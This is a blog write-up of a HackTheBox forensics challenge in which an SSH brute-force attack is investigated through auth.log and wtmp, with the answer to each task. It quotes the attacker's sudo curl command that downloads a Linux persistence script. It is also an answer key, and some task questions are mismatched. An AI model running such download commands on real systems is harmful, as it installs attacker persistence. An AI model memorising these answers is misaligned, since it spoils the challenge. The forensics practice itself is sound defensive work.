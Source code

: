 ```yaml
---
weight: 999
title: "Brutus"
description: ""
icon: "article"
date: "2025-05-30T10:51:07+08:00"
lastmod: "2025-05-30T10:51:07+08:00"
draft: false
toc: true
---
```


解压密码为hacktheblue

>在这个非常简单的 Sherlock 任务中，您将熟悉 Unix 系统的 auth.log 和 wtmp 日志。我们将探讨一个 Confluence 服务器通过 SSH 服务遭受暴力破解的场景。攻击者获取服务器访问权限后，还进行了其他活动，这些都可以通过 auth.log 追踪。尽管 auth.log 主要用于暴力破解分析，但在本次调查中，我们将深入挖掘这一日志的全部潜力，包括权限提升、持久化攻击的迹象，甚至部分命令执行的可见性。

# Task1
>分析 auth.log 日志。攻击者用于实施暴力破解攻击的 IP 地址是什么？
>65.2.161.68


![](https://gitee.com/inklong/blog-pic/raw/master/images/20250530222308030.png)

# Task2
>识别攻击者手动登录服务器以执行其目标的时间戳。登录时间将与认证时间不同，可在 wtmp 记录中找到。
>root


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423141749.png)

# Task3
>识别攻击者手动登录服务器以执行其目标的时间戳。登录时间将与认证时间不同，可在 wtmp 记录中找到。
>2024-03-06 06:32:45

分析wtmp文件即可
# Task4
>SSH 登录会话在登录时会被跟踪并分配一个会话编号。攻击者针对问题 2 中用户账户的会话被分配了哪个会话编号？
>37


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423141749.png)

# Task5
>攻击者在服务器上添加了一个新用户作为其持久化策略的一部分，并赋予该新用户账户更高的权限。这个账户的名称是什么？
>cyberjunkie


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423143634.png)

# Task6
>用于通过创建新账户实现持久化的 MITRE ATT&CK 子技术 ID 是什么？
>T1136.001

技术为创建用户-本地用户
https://attack.mitre.org/techniques/T1136/
# Task7
>根据 auth.log，攻击者的第一次 SSH 会话何时结束？
>2024-03-06 06:37:24


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423144312.png)

# Task8
>攻击者登录其后门账户并利用其更高权限下载了一个脚本。使用 sudo 执行的具体完整命令是什么？
>/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423144414.png)